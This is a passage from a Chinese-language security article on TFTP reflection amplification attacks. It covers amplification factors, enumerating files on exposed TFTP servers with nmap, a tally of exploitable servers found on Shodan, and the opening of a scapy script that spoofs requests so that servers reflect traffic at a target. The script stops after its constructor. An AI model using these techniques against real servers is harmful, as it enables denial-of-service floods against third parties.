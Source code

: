 从以上的测试结果可以看出由于tftpd服务的特性，在服务端未接收到ACK数据包时，会默认进行5次重传，并且重传时间间隔（可设置）为5秒。对于不同的反射放大攻击，例如[Smurf](http://baike.baidu.com/link?url=S20WqQCEfXL7YDelSc2bVLw-veVfXFPpYdsy64mCQZ_kV66yFpq3fsDTVWT9rN2xU-hO6PIJAbSKjUzAU9j9XK)，DNS，[NTP](http://drops.wooyun.org/papers/926)，TCP-based，[SNMP](http://drops.wooyun.org/tips/2106)等反射放大攻击，研究时通常会计算其中的反射因子/放大倍数作为相互比较的标准。在基于tftpd的TFTP反射放大攻击中，这里响应数据包大小总和比上请求数据包大小为：`558*5/60=46.5`。为了简单地对比一下，我还是在XP上下载了[tftpd32](http://tftpd32.jounin.net/tftpd32_download.html)，然后再去`get`自带的文件`tftpd32.chm`（其实在默认状态下tftpd32是允许`put`文件的，但也可在`Setting`中设置为`Read Only`模式）。tftpd32的特性就是会重传6次，时间间隔依次为1,2,3,3,3秒，最后还会发送一个ERROR数据包。这里抛开ERROR数据包计算反射因子的话就是`558*6/62=54`。

![](http://drops.javaweb.org/uploads/images/ef24d54e241c93abdf9dc24a1430f305a444e3ba.jpg)

在论文中的tftpd32版本可能有所不同，反射因子为`59.78`，这个放大因子和其他反射放大攻击相比较还是很可观的：

![](http://drops.javaweb.org/uploads/images/988085d35adf2123afeadeaaf4ef8e1c358d44f0.jpg)

0x04 限制及解决方案
============

* * *

在以上的测试过程中，对于TFTP反射放大攻击利用的限制点主要有三点：

**1. 获取TFTP服务器上存在的文件名**

虽然服务器端无认证过程可以随意登录，但是无法列目录，而造成反射的基础就是需要服务端能够发送出DATA数据包。这就需要我们一个个`get`测试看看TFTP服务器上存在哪些常见的文件了，我们可以对思科（广泛使用TFTP服务）设备文件和其他你认为有可能存在的文件进行测试。还好[nmap](http://seclists.org/nmap-dev/2011/q2/730)在这里给我们提供了一个[tftp-enum.nse](https://nmap.org/nsedoc/scripts/tftp-enum.html)脚本，可以如下使用：

```
$ sudo nmap -sU -p 69 --script tftp-enum.nse --script-args="tftp-enum.filelist=customlist.txt" <host>

```

如果未加`--script-args`的话，脚本会默认调用[tftplist.txt](https://github.com/nmap/nmap/blob/master/nselib/data/tftplist.txt)文件去枚举可能存在的文件。当然，`tftp-enum.filelist`可以指定自定义的列表进行枚举扫描。测试结果示例如下：

![](http://drops.javaweb.org/uploads/images/2e2c8d939e6c5762c154b4298b77c928f540e55f.jpg)

论文当中说是有[599600](http://internetcensus2012.bitbucket.org/serviceprobe_overview.html)台（2012年扫描结果）对外开放的TFTP服务器可能会被用来进行发射放大攻击，但在[shodan](https://www.shodan.io/search?query=tftp)上搜索`tftp`的结果也只有10w左右的样子，可能有待进一步的扫描发现。以下是我在[shodan](https://shodanio.wordpress.com/2014/12/01/using-shodan-from-the-command-line/)中搜索出的999个IP进行测试，其中有47个服务器可以`get`到默认的文件：

![](http://drops.javaweb.org/uploads/images/e6d08f37c29c45555cecb9baa3e3a01bfa13f958.jpg)

**2. TFTP服务器上已知文件的大小**

反射过来的DATA数据包的大小取决于读取文件的内容大小，这样就决定了我们最终反射放大的程度（相对于已知文件的文件名长度——影响请求包大小）。如果DATA数据包过小造成的影响也就很有限的了。

**3. 确定TFTP服务器可利用**

除了以上两点，如果存在其他的过滤机制，我们最终就需要测试一下该TFTP服务是否可利用，在攻击端伪造简单的数据包触发其反射到指定的主机上，代码如下：

```
#!/usr/bin/env python
#coding=utf-8    

import optparse
import sys
import logging    

from scapy.all import *    

class Trigger(object):
    def __init__(self, target, port, filename, server):
        logging.getLogger('scapy.runtime').setLevel(logging.ERROR)
        self.target = target
        self.port = port
        self.filename = filename
        self.server = server    
```